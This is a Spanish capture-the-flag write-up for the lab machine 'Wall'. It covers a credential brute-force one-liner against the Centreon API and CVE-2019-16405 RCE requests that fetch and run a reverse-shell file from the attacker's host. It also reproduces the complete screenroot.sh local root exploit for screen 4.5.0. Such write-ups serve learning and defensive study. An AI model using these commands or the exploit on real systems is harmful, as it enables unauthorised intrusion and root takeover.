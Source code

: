 # Wall

![1_XItXYcP8tLhBnR8FvyPing](https://user-images.githubusercontent.com/87484792/184016462-429034df-66b4-4f34-8386-107417732885.png)

## Datos de Interés

Siento que esta máquina no tiene un gran nivel de dificultad. Será cuestión de investigar un poco sobre el servicio de monitorización que hostea el puerto 80 en el servidor Web. En este caso se trata de **Centreón**. La escalada de privilegios se hará a traves de un SUID que ya hemos podido explotar en otras maquinas, será el screen con versión 4.5.0. Explicaremos de forma manual algunos scripts para entender la intrusión.

## Enumeración

Empezaremos con la fase de enumeración, usaremos nmap para descubrir puertos abiertos. 

`sudo nmap --min-rate 5000 -vvv -p- -sS -Pn -n -oN openPorts.txt 10.10.10.157`

Esta maquina solamente tiene dos puertos abiertos.

![image](https://user-images.githubusercontent.com/87484792/184020390-8073e636-5782-434b-8c9e-d632cec64022.png)

Por un lado tendremos puerto 22 (SSH) y por otro lado el puerto 80 (HTTP).

##  Reconocimiento 

Con SSH no podemos hacer gran cosa ahora mismo, no tenemos credenciales válidas. Iremos a revisar el otro puerto. Encontramos una pagina web con un "Default Page" de Apache. 

![image](https://user-images.githubusercontent.com/87484792/184023616-68fb0323-61b8-4928-863c-4e1f63d08612.png)

Es buena idea empezar a hacer fuzzing, tiraré de dirsearch, en caso de no encontrar nada usaré otro diccionario o haré uso de wFUZZ. Aunque ya puedo adelantar que con dirsearch me fue suficiente.

![image](https://user-images.githubusercontent.com/87484792/184025529-e16886f4-9fc6-4d8c-9cae-5fb7eb29bdd9.png)

Hay cosas interesantes en el reporte del fuzz. 
- */panel.php* parece ser una pequeña troleada del author de la caja.
- */Monitoring*, no podemos acceder. Necesitamos credenciales.
- */centreon* es un software de monitoreo. No tenemos credenciales pero si que tenemos algo muy importante, **la versión**.

![image](https://user-images.githubusercontent.com/87484792/184026472-c0a47dbd-145d-4564-800e-1f39c039f513.png)

La misma web nos da la información que estamos contra un login de versión 19.04

Esto es muy bueno ya que haciendo una busqueda simple en Google, vemos varios CVE y podemos ver que es vulnerable a **RCE**.
Para poder ejecutar estos CVE necesitamos acceso a una cuenta administrador, pero puesto que no tengo ninguno, intentaré bruteforcearlo.

Encontré un script que me ahorraba tiempo para el bruteforce, pero al echarle un ojo quise aprender como funcionaba. Hay un token que nos limita el bruteforce, así que decidi mirar un poco más a fondo. Encontré que este sistema tiene una api que de primera me decia **Unauthorized**. Con una busqueda en google de la API, en la sección de Authenticación pude ver la data que espera la API. Por esta via será mucho más rápido y eficiente que intentar manipular la petición con el token.

Monté un oneliner como este:

`while read line; do request=$(curl -s -X POST "http://10.10.10.157/centreon/api/index.php?action=authenticate" -d "username=admin&password=$line" | tr -d "\""); if [ $request != "Bad credentials" ];then echo -e "\n"'[*] Password found: '$line; break; fi ; done < /usr/share/wordlists/rockyou.txt`

Funciono. Conseguí la password: `password1`

Y efectivamente era la correcta. 
Tal como se puede mostrar en la imagen, nos ha dejado loguearnos.

![image](https://user-images.githubusercontent.com/87484792/184038497-785183bd-a2e8-4d03-b853-7d061616b1fb.png)

Mirando los POC de los CVE, intenté hacerlo de forma manual. De forma grafica tendremos que acceder a **"Config > Commands > Discovery"**
Sin embargo parece que no funciona, algo esta bloqueando el poder ejecutar comandos. Dudo que siendo admin no tengamos los privilegios suficientes para ejecutar comandos.

![image](https://user-images.githubusercontent.com/87484792/184151052-528764c9-7215-4afa-82df-e14288fbda6f.png)

Me pregunté si habia algún WAF activo. Probé tambien con Scripts que habia de la comunidad en GitHub y Scripts de db-exploit. Ninguno me daba una shell.
Como habia más de un CVE que afectaba a esta versión, decidi mirar los otros caminos posibles. 

## CVE-2019-16405

Podemos realizar Ejecución Remota de Comandos a traves de una modificación de plugin, siempre y cuando tengamos permisos de administrador.
Es el caso, así que probaré.

![image](https://user-images.githubusercontent.com/87484792/184155790-5802941d-d764-4ce8-9d33-05e921090fc9.png)

`URL: http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=id&o=p&min=1`

Y si, efectivamente podemos ejecutar comandos. Trataré de cargar una shell para ejecutarla con bash. Hay varios Scripts que son totalmente funcionales, y que dejaré en este write up, pero esta vez lo haremos de forma manual. 

De primeras, crearé un archivo llamado 'shell' con una reverse dentro, compartiré ese archivo a traves de un servidor Python y por último ejecutaré en el centreon el comando de *wget* para descargarlo en la maquina victima.  

![image](https://user-images.githubusercontent.com/87484792/184157502-36293fb2-ee1a-4d9f-9c34-5a1b7279e2c5.png)

Guardamos la shell en el directorio /tmp:

`http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=wget%20http%3A%2F%2F10.10.16.7%2Fshell%20-O%20%2Ftmp%2Fshell&o=p&min=1`

Despues de este paso, queda activarlo para obtener la shell. Ejecutaremos bash.
Para eso antes, me pondré en escucha por el puerto 8081. Y finalmente, ejecutamos.

otorgamos privilegios de ejecución:

`http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=chmod%20777%20/tmp/shell&o=p&min=1`

ejecutamos:

`http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=bash%20%2Ftmp%2Fshell&o=p&min=1`

![image](https://user-images.githubusercontent.com/87484792/184162441-79d1070e-8e07-4132-9e59-646d46373b0a.png)


## Privilegios de Escalados - User & Root

Nos encontramos como el usuario `www-data`, no nos encontramos en ningún grupo interesante, pero mirando los **SUID** hay algo que me llama directamente mi atención.

![image](https://user-images.githubusercontent.com/87484792/184164799-31146bbd-5ca7-4004-a41c-705204c99667.png)

**Screen 4.5.0** Es un binario que nos ayudará a escalar a Root.
Solo es necesario saber si la máquina cuenta con *GCC*, que en este caso, es afirmativo. En caso de ser negativo, podriamos compilarlo desde nuestro lado.

En db-exploit podemos encontrar los comandos que tenemos que ejecutar para escalar, tambien hay un script en bash que nos lo automatiza. Al ser solamente tirar comandos, podemos ejecutarlo directamente.

El shell es este:

```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell

```
